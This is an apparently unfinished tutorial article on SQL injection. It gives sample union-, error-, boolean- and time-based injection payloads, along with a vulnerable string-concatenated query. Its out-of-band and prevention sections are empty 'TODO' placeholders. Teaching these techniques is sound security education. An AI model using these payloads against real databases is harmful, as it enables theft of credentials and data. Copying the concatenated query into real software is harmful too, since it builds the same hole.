 # SQL Injection

> In this article, you’ll learn various SQL Injection techniques and strategies to mitigate these attacks.

When you log in to a webapp, you provide a username and password which are used to authenticate you. But how does this work under the hood? When you provide these credentials, the server will take your input and compare it against user data inside a database.

That step of checking the input against the database can be abused by attackers. Through a cleverly and carefully crafted input an attacker can inject code directly into the database query, getting precious data!

In this article, we’ll be talking about SQL Injection, which is this type of attack on a SQL database. You will be introduced to:

- How SQL is used to power applications
- Different types of SQL Injection attacks
- Basic ways to mitigate SQL Injection attacks

## SQL and SQL Databases

For web applications, SQL is the most common solution for storing and interacting with data. SQL is short for Structured Query Language, which helps communicate and manage a relational database.

What does a relational database look like? It is a collection of tables each with rows and columns. Take a look at the image below:

'TODO: Use table format'
orders 	items

order_number	int	PK
item_id	int	FK
cost	float

item_id	int	PK
price	int
description	longtext

In this database, we have two separate tables - the orders and items tables. In the orders table, we have three separate rows - the order_number, item_id, and cost. In this diagram, there is a relationship between the item_id field in the orders table to the item_id field in the items table. The item_id field is the primary key (PK) in the items table. A primary key is used to relate one table to another table.

This is how most websites organize their data, and SQL is the key to retrieving and updating data.

## How does SQL work?

On a web application, the frontend component displays content in a meaningful way to the users, and the backend controls the internal logic. The backend takes user inputs from the frontend and constructs SQL queries to get or modify data.

Let’s look at several SQL keywords:

- An `SELECT` statement to select the list of all customers from the orders table

```sql
SELECT customer FROM orders;
```

- An `INSERT` statement can add an entry to the items table

```sql
INSERT INTO items (item_id, price, description)
VALUES (101, 53.25, "A new pair of shoes.");
```

- An `UPDATE` statement updates a price in the items table

```sql
UPDATE items
SET price = 65.93
WHERE item_id = 101;
```

## What are SQL Injections?
A SQL injection is a common vulnerability affecting applications that use SQL as their database language. A hacker can use their knowledge of the SQL language to cleverly construct text inputs that modify the backend SQL query to their liking. They can force the application to output private data or respond in ways that provide intel.

![xkcd comic "Exploits of a Mom"](https://imgs.xkcd.com/comics/exploits_of_a_mom.png)

Using the following injection techniques, threat actors may be able to access information they shouldn’t have, change database records, or even take complete control of the system!

### Union-Based Injections

A union-based injection leverages the power of the SQL keyword `UNION`. `UNION` allows us to take two separate `SELECT` queries and combine their results. Union-based injections can allow an attacker to quickly steal information from a system.

Let’s look at an example.

Say this is how the query is created when a customer searched for a product name (`USER_INPUT`):

```sql
query = "SELECT product_name, product_cost, product_description FROM product_table WHERE product_name = " + USER_INPUT + "';";
```

If the attacker enters a user input such as this:

```sql
soap' UNION SELECT username,password,NULL FROM user_table;-- -
```

This input would create a valid SQL statement that grabs information for “soap” but UNIONS all the usernames and passwords of the users!

```sql
SELECT product_name, product_cost, product_description FROM
product_table WHERE product_name = 'soap' UNION SELECT username,password,NULL FROM user_table;-- -';
```

Notice the strategic placement of the `'` character that allows the attacker to insert SQL syntax and extend the SQL query!

### Error-Based Injections

In an error-based injection, an attacker writes a SQL query to force the application to return an error message with sensitive data.

Let’s take a look at the example below from an actual vulnerability. In this example, the attacker’s input causes an error that spits out the password.

```sql
asdf' UNION select 1, exp(~(select*from(SELECT Password FROM profiles WHERE ID=1)x)); -- -
```

SQL query:

```sql
SELECT user_id FROM users WHERE username='asdf' UNION select 1, exp(~(select*from(SELECT Password FROM profiles WHERE ID=1)x)); -- -
```

SQL completes that inside statement getting the password for the profile ID 1, but errors on the value type that should be returned. This is the error that accidentally gives away the password!

```sql
Database access error. Description: DOUBLE value is out of range in 'exp(~((select 'SUP3r_S3cur3_P@a55w0rd!' from dual)))'<?xml version='1.0' encoding='UTF-8'?><ray><result value="Error saving setting." status="failed" /></ray>
```

### Boolean-Based Injections

Boolean-based injections involve SQL statements that can confirm TRUE/FALSE questions about the database. When using this method, the attacker takes note of the difference in the web response (changes in HTML, HTTP response code, or other web session data) when the result of their question is true or false.

Suppose a website has a search box that will return the username and email of a specific user ID. The SQL query below is used:

```sql
SELECT username, email FROM users WHERE id = '[USER INPUT]';
```

In a normal search for `id 1`, the website will give back the username admin and email `admin@site.com` and display everything as normal.

Someone sneaky can use the `AND` keyword to see what happens on the website when the SQL statement is false.

For example, if the search input was this,

```sql
1' AND '1' = '2
```

and this was the SQL query that was run,

```sql
SELECT username, email FROM users WHERE id = '1' AND '1' = '2';
```

We won’t be getting a username and email back, since `1` is never equal to `2`. At this point, the attacker makes note of what happens on the website when the statement is false.

The attacker would also make note of what happens when the modified SQL statement is true (`1` is always equal to `1`).

```sql
SELECT username, email FROM users WHERE id = '1' AND '1' = '1';
```


Using this technique with the `AND` keyword, the attacker could write in any boolean statement on the other side of the `AND`, and based on the website’s response figure out if the statement is true.

Boolean injections are often used to figure out the name of a database table (possibly to build up for a Union-based injection), manipulating one query at a time to confirm one character at a time.

### Time-Based Injections

Not all SQL injections will provide visible output. A time-based injection makes use of several built in SQL functions, such as `SLEEP()` and `BENCHMARK()`, to cause visible delays in an application’s response time. While the output of a command isn’t visible, delays in the response time can be used to infer some information!

Suppose we have a database query that will check to see if a certain username `USER` exists within the database.

```sql
SELECT id FROM users WHERE username = 'USER';
```

Someone could write this SQL syntax as the text input to confirm if the admin‘s password is `P@ssw0rd123`

```sql
a' OR IF((SELECT password FROM users WHERE username='admin')='P@ssw0rd123', SLEEP(5), NULL);-- -
```

making the SQL query:

```sql
SELECT id FROM users WHERE username = 'a' OR IF((SELECT password FROM users WHERE username='admin')='P@ssw0rd123', SLEEP(5), NULL);-- -';
```

If there’s a 5-second delay before a response from the server, an attacker could confirm the `admin` user had a password of `P@ssw0rd123`.

### Out-of-Band SQL Injections

'TODO'

## SQL Injection Prevetion

There are two main methods for preventing injection attacks: sanitization and prepared statements.

### Sanitization

'TODO'

### Prepared Statements

'TODO'

## Conclusion

Since databases are a crucial part of many applications, SQL injection flaws continue to persist. Whether you’re developing an application or doing penetration testing to improve security, it’s crucial to understand the different forms of these SQL exploits!
